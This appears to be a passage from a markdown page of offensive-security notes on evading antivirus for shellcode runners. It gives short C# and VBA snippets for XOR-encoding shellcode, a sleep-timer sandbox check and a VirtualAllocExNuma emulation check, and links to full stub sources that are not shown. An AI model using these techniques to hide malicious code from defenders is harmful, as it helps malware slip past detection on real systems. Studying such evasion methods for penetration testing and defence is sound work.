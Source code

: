 Shellcode can be encrypted using XOR as well.

[Full Source](../src/csharp/stub/Stub-XorEncryptor.cs)

```
for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)((uint)buf[i] ^ 0xBE);
}
```

### Sleepy Shellcode Runner

A sleep timer can be used to attempt to trick AV.

#### C#

```
DateTime t1 = DateTime.Now;
Sleep(2000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if (t2 < 1.5)
{
    return;
}
```

#### VBA

```
' sleep
Dim t1 As Date
Dim t2 As Date
Dim time As Long

t1 = Now()
Sleep (2000)
t2 = Now()
time = DateDiff("s", t1, t2)
If time < 2 Then
    Exit Function
End If
```

### Non Emulated APIs

Attempt to bypass detection using a Win32 API that is not well emulated.

#### VirtualAllocExNuma

[Full Source](../src/csharp/stub/Stub-Numa.cs)

```
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4,0);
if (mem == null)
{
    return;
}
```
